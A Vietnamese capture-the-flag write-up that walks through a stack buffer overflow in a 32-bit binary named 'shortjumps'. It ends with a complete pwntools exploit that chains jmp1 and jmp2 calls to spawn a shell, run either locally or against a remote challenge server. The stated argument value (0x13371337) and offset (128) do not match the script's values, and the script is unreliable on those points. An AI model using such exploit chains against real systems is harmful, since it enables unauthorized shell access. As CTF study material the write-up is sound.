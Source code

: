 
Giờ ta sẽ nhìn qua file binary được cung cấp và các chế độ bảo vệ:

![image](https://user-images.githubusercontent.com/114044703/213363744-10546499-32db-48f7-9635-299f92477644.png)

![image](https://user-images.githubusercontent.com/114044703/213363861-54135429-a1da-498f-a19e-525346190c8f.png)

Vậy chúng ta sẽ làm việc với file binary 32 bit. Khi chạy thì chương trình sẽ yêu cầu ta nhập tên và hỏi ta có giấc mơ nào không, nếu có thì ta sẽ được ghi vào

![image](https://user-images.githubusercontent.com/114044703/213364568-5008bf8d-4aa0-4dfe-8762-8a650f8be030.png)

![image](https://user-images.githubusercontent.com/114044703/213364621-65fe7a0c-4fc0-482a-8210-9858b86d8c50.png)

Có vẻ như chương trình bị lỗi buffer over flow. Biến dream được nhập vào 140 ký tự mà mảng dream chỉ có 80 phần tử, thêm vào đó offset giữa dream và save rip là 0x80(128)-> có thể đè save rip  

Khi tìm thêm ta thấy 2 hàm jump:

![image](https://user-images.githubusercontent.com/114044703/213365113-328c3e7f-95ca-4041-9daa-f58945a1e002.png)

![image](https://user-images.githubusercontent.com/114044703/213365133-e75ff069-e48b-4e13-8da0-2c2bc1c1913c.png)

Hàm jmp2 sẽ thực thi lệnh system nếu arg1=0xcafebabe, arg2=0x13371337 và jmp1=1. Mà hàm jmp1 lại khiến cho jmp1 =1 khi agr1 của nó bằng 0xdeadbeef.

Ý tưởng: Ta sẽ gọi hàm jmp1 với arg1 là 0xdeadbeef sau đó quay lại thực thi main và lại sử dụng lỗi bof phía trên để nhảy sang jpm2 với những arg thích hợp để thực thi system("/bin/sh")(vì khi từ jmp1 call sang jmp2 chỉ cho đc 1 arg của jmp2)

 
Ta sẽ khai thác với những dữ kiện trên:

```
from pwn import *
debug=1

jmp1=0x080492b4
main_1=0x08049378
jmp1_arg=0xdeadbeef

jmp2=0x080492e0
jmp2_arg1=0xcafebabe
jmp2_arg2=0x48385879

if debug:
	t=process("./shortjumps")
	#gdb.attach(t,api=True)	
else:
	t=remote("146.190.115.228",9993)
	
t.sendlineafter(b"> ",b"KSCS")
t.sendlineafter(b"> ",b"Y")
payload=b"A"*124+p32(jmp1)+p32(main_1)+p32(jmp1_arg) #main->jump1-> main

t.sendlineafter(b"> ",payload)
t.sendlineafter(b"> ",b"KCSC")
t.sendlineafter(b"> ",b"Y")
payload=b"A"*124+p32(0x080492e0)+p32(main_1)+p32(jmp2_arg1)+p32(jmp2_arg2) #jump2
t.sendlineafter(b"> ",payload)
t.interactive()
```

Sau khi thực thi:

![image](https://user-images.githubusercontent.com/114044703/213366761-5abbe76f-f792-4d03-b895-8b9eac687d34.png)

 

